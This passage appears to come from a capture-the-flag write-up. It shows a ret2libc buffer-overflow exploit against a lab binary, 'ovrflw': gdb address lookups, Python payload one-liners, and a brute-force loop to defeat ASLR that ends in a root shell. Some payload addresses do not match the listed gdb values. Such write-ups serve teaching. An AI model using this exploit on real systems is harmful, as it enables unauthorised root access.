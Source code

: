 ```bash
(gdb) find 0xb75f2310, +99999999, "/bin/sh"
0xb7714bac
warning: Unable to access 16000 bytes of target memory at 0xb775ef34, halting search.
1 pattern found.
```

| `system`  | `0xb75f2310` |
| --------- | ------------ |
| `exit`    | `0xb75e5260` |
| `/bin/sh` | `0xb7714bac` |

Using either method to find the addresses, we can finally craft the exploit payload.

Our exploit will be crafted in this format: `RANDOM + SYSTEM + EXIT + /bin/sh`.

```bash
Method 1:
$(python -c "print('A'*112 + '\x10\x53\x5f\xb7' + '\x60\x82\x5e\xb7'  + '\xac\x7b\x71\xb7')")

Method 2:
$(python -c "print('A'*112 + '\x10\x23\x5f\xb7' + '\x60\x52\x5e\xb7' + '\xac\x4b\x71\xb7')")
```

However, ASLR was enabled for the program, which means that we have to loop the exploit until we get a shell.

```bash
Method 1:
while true; do /usr/local/bin/ovrflw $(python -c "print('A'*112 + '\x10\x53\x5f\xb7' + '\x60\x82\x5e\xb7'  + '\xac\x7b\x71\xb7')"); done

Method 2:
while true; do /usr/local/bin/ovrflw $(python -c "print('A'*112 + '\x10\x23\x5f\xb7' + '\x60\x52\x5e\xb7' + '\xac\x4b\x71\xb7')"); done
```

```bash
Method 1:
$ while true; do /usr/local/bin/ovrflw $(python -c "print('A'*112 + '\x10\x53\x5f\xb7' + '\x60\x82\x5e\xb7'  + '\xac\x7b\x71\xb7')"); done
...
Segmentation fault (core dumped)
Trace/breakpoint trap (core dumped)
Segmentation fault (core dumped)
Illegal instruction (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
whoami
root

Method 2:
$ while true; do /usr/local/bin/ovrflw $(python -c "print('A'*112 + '\x10\x23\x5f\xb7' + '\x60\x52\x5e\xb7' + '\xac\x4b\x71\xb7')"); done
Illegal instruction (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
Segmentation fault (core dumped)
whoami
root
```